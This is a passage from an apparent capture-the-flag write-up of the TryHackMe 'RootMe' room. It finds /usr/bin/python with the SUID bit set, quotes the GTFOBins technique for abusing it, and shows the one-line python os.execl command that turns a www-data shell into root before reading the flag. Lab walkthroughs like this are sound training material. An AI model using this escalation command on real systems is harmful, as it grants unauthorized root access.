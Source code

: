 ```bash
/snap/core/9665/usr/lib/snapd/snap-confine
/snap/core/9665/usr/sbin/pppd
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
```

After checking all files, it is strange, that `/usr/bin/python` has a `SUID`permission.

```bash
$ ls -l /usr/bin/python
-rwsr-sr-x 1 root root 3665768 Aug  4  2020 /usr/bin/python
```

Answer: `usr/bin/python`

### Find a form to escalate your privileges.

For this we check the hint there.

`Search for gtfobins`

After a short google search I found this:

https://gtfobins.github.io/gtfobins/python/



    SUID
    If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run sh -p, omit the -p argument on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges.

    This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

    sudo install -m =xs $(which python) .

    ./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'


Good. Lets try it.
```bash
$ bash -i
bash: cannot set terminal process group (909): Inappropriate ioctl for device
bash: no job control in this shell
www-data@rootme:/$ usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
<hon -c 'import os; os.execl("/bin/sh", "sh", "-p")'
id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
cd /root
ls
root.txt
cat root.txt
THM{pr1v1l3g3_3sc4l4t10n}


```
